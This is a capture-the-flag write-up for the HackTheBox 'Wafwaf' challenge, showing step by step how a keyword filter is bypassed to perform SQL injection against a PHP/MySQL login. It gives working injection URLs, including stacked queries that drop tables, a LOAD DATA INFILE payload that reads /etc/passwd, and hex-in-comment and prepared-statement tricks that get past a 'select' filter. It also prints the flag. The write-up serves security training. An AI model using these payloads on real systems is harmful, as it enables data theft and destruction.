

# Wafwaf

## Description

Who Let the blacklists out.
http://docker.hackthebox.eu:30675/

## Writeup


Upon opening the challenge link, we can read the source code of index.php. It expects two parameters: `user` and `pass`
Then it filters some important keywords and characters such as `select`, `'`, and `.`
Then what it does is simply executing a query and returning the first result.
Looks like a classic SQL injection, and we must bypass the filters (hence the name wafwaf).
We'll divide the solution in two parts

### Part 1: Injecting custom queries

If we analyse carefully, we can notice two important things:

1. `user` and `pass` are inside single quotes in the query, which is a filtered character.
2. to execute the query, the function `multi_query()` is used, which is a very dangerous one, it allows us to execute stacked queries.

So, all we have to do now is just insert a backslash `\` in the `user` param, to escape the ending quote of `user`. so now `user` is terminated with the starting quote of `pass` and then we can add any query we want in the `pass` param, in the form of: `; QUERY ;`
(the last `;` is mandatory to terminate the query and in the same time ignore the ending quote of `pass`)

For instance, to get the list of databases:

```
http://docker.hackthebox.eu:30675/?user=\&pass=;show+databases;
```


Let's get the table name:

```
http://docker.hackthebox.eu:30675/?user=\&pass=;use+challenge;show+tables;
```


Let's not forget that we can only see one row of the results, so we're not sure yet if this is the right table (especially because the name doesn't imply so).

The quickest way i found to get all tables is to just drop tables one by one and then restart the server x)

```
http://docker.hackthebox.eu:30675/?user=\&pass=;use+challenge;drop+table+definitely_not_a_flag;show+tables;
```


Now we get the `users` table, let's drop it:

```
http://docker.hackthebox.eu:30675/?user=\&pass=;use+challenge;drop+table+users;show+tables;
```


So there is only two tables, and `definitely_not_a_flag` is the right table containing the flag.
We can restart the server and continue.

Just to be extra sure, we can execute `describe definitely_not_a_flag`

```
http://docker.hackthebox.eu:30675/?user=\&pass=;use+challenge;describe+definitely_not_a_flag;
```


We can clearly see there is a column `flag`.

Let's move on

### Part 2: Reading the flag

Part 1 was quite easy to find, but now comes the hardest part:
How to read the table contents knowing that `select` is filtered.
In other words:
```
How to select from a table without actually using select.
```

This took us a long time to find, first we simply tried to add a comment in between
Like this: `sel/**/ect` but somehow it didn't work.

Then we looked elsewhere, we found a way to read system files by putting their content in `users` table.
For instance to read `/etc/passwd` we use:

```
http://docker.hackthebox.eu:30911/?user=\&pass=;load+data+local+infile+"/etc/passwd"+into+table+users+FIELDS+TERMINATED+BY+"\n";
```

and then to read it:

```
http://docker.hackthebox.eu:30911/?user=\&pass=+or+1+limit+1+offset+68;
```

It will split the content in chunks and put it in both fileds `username` and `password`
We increment the offset each time to read all chunks.



Even though we think this might be unintended, it is useless for the rest of the challenge.

Let's get back to the real problem.  
At this moment we had three ideas and we're gonna explore them one by one :  
* Find an alternative way to do a select 
* dump the content of the table to a file then load the file into the users table and read it  
 * Find way to use select without explicitly using select

###### First idea : 
As it has been mentioned earlier this idea was a dead end since we couldn't find a way to dump the table content without the use of `select`  
###### Second idea : 
This one didn't last longer also after doing research and trying to find any alternative to select data without using select we were unable to find anything helpfull

###### Third idea :
Since the first two didn't give any results we are stuck with this with the experience we have and the research we did we tried a bunch of ways to bypass the waf :
* Url encode 
* Unicode encode
* Insert comment /\*\*/ and splitting the select : sel/**/ect 
* Use unicode homoglyph
* Insert special chars : newline ; cr ; null byte 
* Double url encode     

And unfortunately none of them worked but in the process we found an intresting way to execute commands in mysql , You can use `/* */` for comment but there is an interresting feature if you put an exclamation point after the first asterix like this : `/*! */` the comment will get exectued 
We can try it in the server  :  
```
http://docker.hackthebox.eu:30911/?user=\&pass=;/*!explain+definitely_not_a_flag*/;
```
  
Keep this in mind we will need it later   
After all the fails we had an idea that may have a good potential : since the server is using `multi_query` why don't we use prepared statements that will give us more flexibility and may open the space for new ideas   
You can easily use prepared statement like this :
```
set @query  = "Your query will go here" ;
prepare my_query from @query ;
execute my_query;
```
I Tried it in the server using the same query as the last example
```
http://docker.hackthebox.eu:30911/?user=\&pass=;set+@query+=+"explain+definitely_not_a_flag"+;prepare+my_query+from+@query;execute my_query;
```
And we got a result   
  
Now we need to change the statement and find a way to insert a `select` into it ,first idea we had is trying to split then concatenate but since the only way to do that is using `CONCAT()` or `CONCAT_WS()` in which we will need to include `(` so it's impossible to do.  
The second way is to hex the query then unhex it but we have the same problem we need to use `unhex()` and we can't !  

Remember what we have mentioned before about `/*! */` we found out that if you put hex in it it will actually  interpret it and convert it into ascii with the condition that it has to start with `0x`  and that's what we need.     
Let's first try it locally `Since i am a lazy boy I picked the first online website that offers mysql support` , after creating a table called `flags` with a column called `flag`,I tried to select flag.   
```
statement : Select flag from flags
Hex representation : 53656c65637420666c61672066726f6d20666c616773
```
  
Bingo ! it worked , now we just need to perform it on the server   
The query to execute : 
```
Select flag from definitely_not_a_flag
```
Hex representation :
```
53656c65637420666c61672066726f6d20646566696e6974656c795f6e6f745f615f666c6167
```
Full command :
```
;set+@query+=+/*!0x53656c65637420666c61672066726f6d20646566696e6974656c795f6e6f745f615f666c6167*/+;prepare+my_query+from+@query+;execute my_query;
```
Let's Try it on the server :
```
http://docker.hackthebox.eu:30911/?user=\&pass=;set+@query+=+/*!0x53656c65637420666c61672066726f6d20646566696e6974656c795f6e6f745f615f666c6167*/+;prepare+my_query+from+@query+;execute my_query;
```
    
It worked , we finally got it  

##### Flag :   

```
HTB{wh0_l3t_th3_w4fs_0ut?!..w00f..w00f.w00f!}
```

#### Note:

Actually, my team mate found a way to solve it using split and concat,
but without using `CONCAT()`. 

In Mysql, there is a global variable named `sql_mode` it allows us to tune the server by specifying some predefined modes, you can check the doc to read about all possible modes. But in our case, we are interested only in the mode `PIPES_AS_CONCAT`, as the name suggest, it makes it possible to concat strings using pipes.

The query becomes:
```
;set+sql_mode="PIPES_AS_CONCAT";set+@query+="sel"||"ect flag from definitely_not_a_flag"+;prepare+my_query+from+@query+;execute my_query;
```

Let's Try it on the server :
```
http://docker.hackthebox.eu:30911/?user=\&pass=;set+sql_mode="PIPES_AS_CONCAT";set+@query+="sel"||"ect flag from definitely_not_a_flag"+;prepare+my_query+from+@query+;execute my_query;
```


Works Perfectly :D